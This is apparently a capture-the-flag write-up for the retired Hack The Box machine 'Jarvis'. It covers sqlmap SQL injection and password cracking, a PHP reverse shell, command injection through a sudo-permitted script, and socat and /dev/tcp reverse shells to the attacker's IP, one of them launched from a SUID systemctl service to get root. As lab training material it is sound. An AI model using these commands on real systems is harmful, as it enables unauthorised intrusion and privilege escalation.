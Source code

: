 ```yaml
---
layout: post
title:  "HTB - Jarvis"
date:   2020-06-07 20:00 +0100
tags: writeups
initial: 2019-09-07
---
```

Writeup for the retired HTB machine Jarvis  
Link: https://www.hackthebox.eu/home/machines/profile/194  
IP: 10.10.10.143

<!--more-->

## Recon
nmap reveals a very limited port selection:
```
22/tcp    open     ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp    open     http    Apache httpd 2.4.25 ((Debian))
5355/tcp  filtered llmnr
64999/tcp open     http    Apache httpd 2.4.25 ((Debian))
```

The web page on port 80 is a php site with not much at the first glance.  
On port 64999 you'll get a blank page with "Hey you have been banned for 90 seconds, don't be bad" on the first call.  
As a preliminary investigation, gobuster is used to find additional content on the webserver.

## Gobuster port 80
```
/images (Status: 301)
/index.php (Status: 200)
/nav.php (Status: 200)
/footer.php (Status: 200)
/back.php (Status: 200)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/phpmyadmin (Status: 301)
/connection.php (Status: 200)
/room.php (Status: 302)
/sass (Status: 301)
/server-status (Status: 403)
```

Exploring the website leads to weird reactions if the Room Booking (http://10.10.10.143/room.php?cod=1) is manipulated with. Guessing from these results and the URL schema, a closer inspection of SQL Injection capabilities was concluded.


## SQLMap
Running SQLmap with the dump parameter yields to successful execution.
`sqlmap -u http://10.10.10.143/room.php?cod=2 --dump`

As a next step, a password dump is attempted with *rockyou.txt* as dictionary file:
`sqlmap -u http://10.10.10.143/room.php?cod=2 --passwords`
which is successful:  

```
[10:43:12] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: PHP, Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
(...)
[10:44:04] [INFO] starting dictionary-based cracking (mysql_passwd)
[10:44:04] [INFO] starting 2 processes 
[10:44:04] [INFO] cracked password 'imissyou' for user 'DBadmin'                                                                   (...)
database management system users password hashes:                                                                                                                    
[*] DBadmin [1]:
    password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
    clear-text password: imissyou
```
With these credentials, loggin into phpMyAdmin is possible. As SQLMap is also able to spawn shells under certain circumstances, this is worth trying as well:  
`sqlmap -u http://10.10.10.143/room.php?cod=2 --os-shell`  
which yields a shell as `www-data`. By looking around a bit, we learn that the target OS user is named `pepper`.  
Also, there's an interesting script in `/var/www/Admin-Utilities`, it's `simpler.py`.  
Again, with SQLMap, this file can be downloaded:  
`sqlmap -u http://10.10.10.143/room.php?cod=2 --file-read=/var/www/Admin-Utilities/simpler.py`
On closer inspection, the script seems to execute actions in the user home folder of pepper. As this script is executed as *www-data*, there must be a sudo entry to run it as *pepper*. This can be confirmed by running `sudo -l`:  
`sqlmap -u http://10.10.10.143/room.php?cod=2 --os-cmd="sudo -l"`  
```
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```
At this point, a switch to a fully interactive session is needed. This can be archieved by running a local webserver on the attacker machine and serving a prepared PHP reverse shell (*apalaxsh.php*) that is downloaded via `wget` or `curl` to the target systems web dir (www-data).
With a running netcat receiver on the attacker machine (`nc -nvlp 9999`), the shell is triggered by pointing a browser to `/apalaxsh.php`, which yields a shell.

## Road to user
Now the script can be further examined in its native run environment as sudoed user:  
`sudo --user=pepper /var/www/Admin-Utilities/simpler.py`  

This [article on Infoblox Shell Escape](https://packetstormsecurity.com/files/144749/Infoblox-NetMRI-7.1.4-Shell-Escape-Privilege-Escalation.html) provides some ideas on how to escape via sudo/ping:  

```
$ sudo --user=pepper /var/www/Admin-Utilities/simpler.py -p

Enter an IP: $(cat /home/pepper/user.txt)

ping: 2afa36c4f05b37b34259[...]]: Temporary failure in name resolution
```
which yields the user flag.  
But this is not everything this shell can do. By upgrading the shell to a full interactive shell first (`python -c 'import pty; pty.spawn("/bin/sh")'`),  
we're able to spawn a shell as pepper:  
```
sudo --user=pepper /var/www/Admin-Utilities/simpler.py -p

Enter an IP: $(/bin/bash)
$(/bin/bash)
pepper@jarvis:/$ 
```
This shell isn't perfectly working, so it is upgraded to a full reverse shell. With nc running on port 8989, this command yields a fully functioning shell:  
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.15.195:8989`



## Road to root  
Exploring privilege escalation routes, it turns out that systemctl has the *SETUID* bit set, meaning it can run with root privileges.
Creating a systemctl oneshot service that spawns a reverse shell as root is therefore possible:
```
[Unit]
Description=Black magic happening, avert your eyes

[Service]
RemainAfterExit=yes
Type=simple
ExecStart=/bin/bash -c "exec 5<>/dev/tcp/10.10.15.195/8888; cat <&5 | while read line; do $line 2>&5 >&5; done"

[Install]
WantedBy=default.target
```
Then make use of systemctl link to link the service file into the correct position:  
`systemctl link /home/pepper/apalax.service`
and enable it, therefore opening the connection to port 8888 on our Machine:  
`systemctl start --now apalax`  

This spawns a minimal shell that is functioning enough to print the contents of `root.txt`.
